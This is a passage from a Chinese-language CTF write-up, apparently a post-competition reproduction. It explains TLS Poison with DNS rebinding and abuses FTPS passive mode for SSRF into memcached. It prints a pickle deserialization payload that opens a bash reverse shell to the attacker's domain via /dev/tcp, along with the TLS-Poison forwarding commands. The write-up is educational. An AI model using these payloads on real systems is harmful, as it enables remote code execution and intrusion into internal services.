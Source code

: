 本地起个docker看看memcached![image-20220625155247610](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220625155247610.png)

是序列化后的内容，emm，考虑构造ftps协议的内容触发pickle反序列化？

————比赛的时候就想到这里，搜到了几篇文章，但过程过于复杂就放弃了，下面是赛后复现

主要参考陆队这两篇文章->[一篇文章带你读懂 TLS Poison 攻击](https://blog.zeddyu.info/2021/04/20/tls-poison/)  |  [TLS-Poison 攻击方式在 CTF 中的利用实践](https://blog.zeddyu.info/2021/05/19/tls-ctf/)，还有赵总的这篇文章->[基于 A 和 AAAA 记录的一种新 DNS Rebinding 姿势–从西湖论剑2020 Web HelloDiscuzQ 题对 Blackhat 上的议题做升华](https://www.zhaoj.in/read-6681.html) ，前置内容可以参考[TLS 握手优化详解](https://imququ.com/post/optimize-tls-handshake.html)

**先简单了解一下TLS Poison：**

根据我们对TLS连接过程的了解，不论在TLS 1.2或是1.3中都会使用类似cookie的32位sessionID来验证客户端的身份，这个凭据由服务端下发至客户端，服务端不保存，当客户端HTTPS访问站点时服务端会对其进行解密；此时如果我们有一个恶意的服务器，向客户端分发特制的凭据，客户端就会把这个凭据存储起来

在实际进行HTTPS请求之前，客户端需要对域名进行DNS查询，如果DNS缓存过期则会再进行一次DNS查询，如果没有过期，很容易联想到DNS重绑定

第一次请求时返回指向我们恶意服务器的IP，使第一次TLS握手成功 客户端缓存恶意的凭据，在第二次请求需要恢复会话时发起第二次DNS请求，此时返回重绑定的结果127.0.0.1，当客户端恢复会话时客户端会用我们恶意服务器下发的凭据与127.0.0.1尝试TLS握手，也就是说对内网地址进行一次请求

有一张很直观的图可以辅助理解

![img](https://raw.githubusercontent.com/jmdx/TLS-poison/master/diagram.svg)

回到本题，我们可以利用的服务是ftps，当客户端使用ftps://ip:port/访问ftp服务器时，ftp在被动模式下向客户端指定数据传输的ip和端口，我们需要将payload的部分通过ftp请求的方式进行传输，同时要注意满足TLS的解析

首先用[TLS-Poison](https://github.com/jmdx/TLS-Poison%E3%80%82)来实现TLS层的解析，通过下面的命令监听8000端口并将tls解析之后应用层的内容转发给1234端口

```
target/debug/custom-tls -p 8000 --verbose --certs /etc/letsencrypt/live/<your_domain>/fullchain.pem --key /etc/letsencrypt/live/<your_domain>/privkey.pem  forward 1234
```

使用redis设置payload：

```
set payload "\r\nset actfSession:whatever 0 0 <len>\n(S'/bin/bash -c \"/bin/bash -i >& /dev/tcp/<your_domain>/8080 0>&1\"'\nios\nsystem\n.\r\n"
```

经过8000端口的解析，转发到1234端口的内容就是普通的ftp请求了。在1234端口开启一个被动模式返回ip和端口是ssrf目标的ftp服务即可，针对本题就是127.0.0.1的11200端口：

```bash
python3 FTPserverForTLSpoison.py 1234 127.0.0.1 11200
```

控制目标机访问ftps://<your_domain>:8000/，即可触发上述TLS-Poison流程，向memcached写入序列化字符串







## beWhatYouWannaBe

http://124.71.180.254:10022
